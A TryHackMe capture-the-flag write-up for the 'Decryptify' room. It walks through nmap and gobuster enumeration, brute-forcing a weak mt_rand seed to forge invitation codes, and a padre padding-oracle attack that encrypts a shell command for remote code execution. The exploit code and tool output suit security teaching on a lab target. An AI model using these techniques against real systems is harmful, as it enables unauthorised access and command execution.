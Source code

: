 ```yaml
---
title: Decryptify - TryHackMe
date: 2025-04-12
---
```


<script setup>
    import RoomCard from "../../../.vitepress/components/thm/RoomCard.vue";
</script>

<RoomCard
    roomName="Decryptify"
    roomIcon="/ctf/tryhackme/decryptify/icon-room.png"
    roomLink="https://tryhackme.com/room/decryptify"
    roomLevel="MEDIUM"
    roomTechnology="Linux"
/>

## Challenge Overview

This challenge involves analyzing a vulnerable web application hosted on a target machine. The goal is to enumerate services, analyze web application components, bypass authentication mechanisms, and ultimately exploit a cryptographic vulnerability to achieve Remote Code Execution (RCE) and capture flags.

## Enumeration Phase

### Nmap – Network Scanning

We begin by performing a comprehensive port and service scan to identify open ports on the target system.

```bash
nmap -sV -sC -oN nmap/initial.nmap 10.10.10.10
```

**Scan Results:**

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e539fe7f1243aad8147bfb63ffa730ab (RSA)
|   256 b0d6ce37b5604f0908fc589ec46f649f (ECDSA)
|_  256 91d40396111acefe8cc6f99b8a308b0b (ED25519)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login - Decryptify
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

**Findings:**

- **SSH (22/tcp)**: OpenSSH 8.2p1
- **HTTP (1337/tcp)**: Apache web server with a login page titled *"Decryptify"*

## Web Application Analysis

### Initial Reconnaissance

Navigating to `http://10.10.10.10:1337/` reveals a login page requesting an email/username and an invitation code.

![Login Page](/ctf/tryhackme/decryptify/login.png)

Reviewing the page source reveals the presence of a JavaScript file: `/js/api.js`.

![Source Code](/ctf/tryhackme/decryptify/source-code.png)

This script appears to be performing some form of processing. When executed locally, it outputs:

```text
H7gY2tJ9wQzD4rS1
```

This string seems to function as a password for accessing the API documentation via a button on the page:

![API Login](/ctf/tryhackme/decryptify/api-login.png)

Using the value as a password grants access to the documentation:

![API Documentation](/ctf/tryhackme/decryptify/api-documentation.png)

Within this documentation, we find the function responsible for generating invitation codes.

```php
function calculate_seed_value($email, $constant_value) {
    $email_length = strlen($email);
    $email_hex = hexdec(substr($email, 0, 8));
    $seed_value = hexdec($email_length + $constant_value + $email_hex);
    return $seed_value;
}

$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);
```

This is critical for crafting custom invitation codes.

## Directory Enumeration

To uncover hidden directories, we use **Gobuster**:

```bash
gobuster dir -u http://10.10.10.10:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Gobuster Output](/ctf/tryhackme/decryptify/gobuster.png)

### Discovery: `/logs`

We discover a `/logs` directory containing an `app.log` file.

![Logs Directory](/ctf/tryhackme/decryptify/logs.png)

Reviewing the log contents:

![App Log](/ctf/tryhackme/decryptify/app-log.png)

We extract a valid invitation code for the user `alpha@fake.thm`:

```text
Invite code: MTM0ODMzNzEyMg==
```

However, logs also indicate that this account is deactivated:

```text
User alpha@fake.thm deactivated
```

Another user `hello@fake.thm` has since been created. We aim to generate a new invitation code for this user using the function previously found.

## Exploiting the Invitation Code Generation

To do this, we first brute-force the constant value used in the seed calculation for the known user `alpha@fake.thm`.

```php
// Brute-forcing constant value
$email = "alfa@fake.thm";
$invite_code_given = "MTM0ODMzNzEyMg==";
for ($constant_value = 0; $constant_value < 999999999; $constant_value++) {
    $seed_value = calculate_seed_value($email, $constant_value);
    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($invite_code === $invite_code_given) {
        echo "Found constant value: " . $constant_value;
        break;
    }
}
```

**Result:**

```bash
Found constant value: 99999
```

### Generating a Valid Invitation Code for `hello@fake.thm`

Now that we have the constant, we generate an invite code for the new user.

```php
$email = "hello@fake.thm";
$constant_value = 99999;

$seed_value = calculate_seed_value($email, $constant_value);
mt_srand($seed_value);
$random = mt_rand();
$invite_code = base64_encode($random);

echo $invite_code;
```

**Output:**

```bash
NDYxNTg5ODkx
```

We can now authenticate successfully.

## Post-Authentication Exploration

After logging in, we are redirected to a dashboard.

![Dashboard](/ctf/tryhackme/decryptify/dashboard.png)

Inspecting the page’s source code reveals a hidden input field with a suspiciously encoded value.

```html
<input type="hidden" name="date" value="ANwAS6sthVRXTaikiT5OiBUZ8DqXsCA+bgJY3N1B0fI=">
```

When submitting a request with an empty `date` parameter, we get the following error:

![Error](/ctf/tryhackme/decryptify/error.png)

The message:

```
Padding error: error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length
```

This is a well-known error message associated with **AES encryption padding issues**, which can potentially indicate a **padding oracle vulnerability**.

## Exploiting Padding Oracle for Remote Code Execution

Using the [Padre](https://github.com/glebarez/padre/releases/tag/v2.1.0) tool, we attempt to exploit this vulnerability:

```bash
./padre-darwin-amd64 \
  -cookie 'PHPSESSID=p4sitftkdolatjl89fplgipsh0; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' \
  -u 'http://10.10.165.104:1337/dashboard.php?date=$' \
  -enc "cat /home/ubuntu/flag.txt"
```

**Tool Output:**

```bash
[i] padre is on duty
[i] using concurrency (http connections): 30
[+] successfully detected padding oracle
[+] detected block length: 8
[!] mode: encrypt
[1/1] 8ToOYHlh0PuGepheR0TEN66XK6YqUx4yZQWGJFft495lbmJyaWVhcw==                                                                                                                         [40/40] | reqs: 4435 (492/sec)
```

This successfully returns the contents of the flag file.

![Flag Output](/ctf/tryhackme/decryptify/flag.png)
